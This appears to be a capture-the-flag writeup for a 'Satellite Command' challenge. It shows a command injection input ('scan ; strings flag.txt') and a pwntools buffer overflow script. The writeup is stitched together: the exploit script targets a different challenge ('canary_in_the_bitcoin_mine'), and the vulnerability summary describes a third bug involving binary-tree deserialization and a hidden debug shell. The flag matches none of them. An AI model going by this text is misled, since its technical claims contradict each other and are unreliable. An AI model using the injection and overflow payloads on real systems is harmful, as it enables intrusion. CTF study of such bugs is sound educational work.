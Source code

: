 # Satellite Command - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SatelliteCommand.gif)

---

## Challenge Summary

The binary simulates a satellite command interface with several options, including a `scan` command that takes a directory name as input and internally constructs a shell command like:

```
ls -l ./satellite/<user_input>
```

The program then executes it using `system()`. Although it checks for blocked terms via `is_blocked()`, if `flag.txt` is not filtered or if the filter is bypassable. Due to unsanitized input, it's possible to inject shell metacharacters such as ; to execute arbitrary commands

---

## Binary Information

```bash
$ file challenge
```

![Alt text](img/2.png)

```bash
$ pwn checksec challenge
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

In IDA Pro, the `main()` function reveals a loop-based command handler that reads user input using `fgets()` into a 128-byte buffer. The input is then compared against several command strings (`help`, `status`, `scan`, etc.).

For the `scan` command:

- The input is parsed and passed to `snprintf()` to build a shell command:

  ```c
  snprintf(
                (unsigned int)v26,
                256,
                (unsigned int)"ls -l ./satellite/%s 2>/dev/null",
                (unsigned int)v25,
                v11,
                v12,
                (char)v25);
  ```

![Alt text](img/4.png)

- This command is then executed with `system()`.

Before execution, the input is checked by a function called `is_blocked()`, which attempts to detect blacklisted terms. However, this filter can potentially be bypassed using shell metacharacters (e.g., `;`) or obfuscated input.

Because the `system()` call is based on unsanitized user input, the program is vulnerable to **command injection**, allowing unintended command execution like `strings flag.txt`.

---

## Exploit Strategy

To exploit the vulnerability, supply a crafted input using shell metacharacters via the `scan` command. For example:

```
scan ; strings flag.txt
```

This input causes the program to construct and execute:

```
ls -l ./satellite/; strings flag.txt 2>/dev/null
```

Since the input is passed directly to `system()` without proper sanitization, the injected `strings flag.txt` command executes after the semicolon. If `is_blocked()` does not filter `;` or if it can be bypassed, the attacker gains arbitrary command execution and can read the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
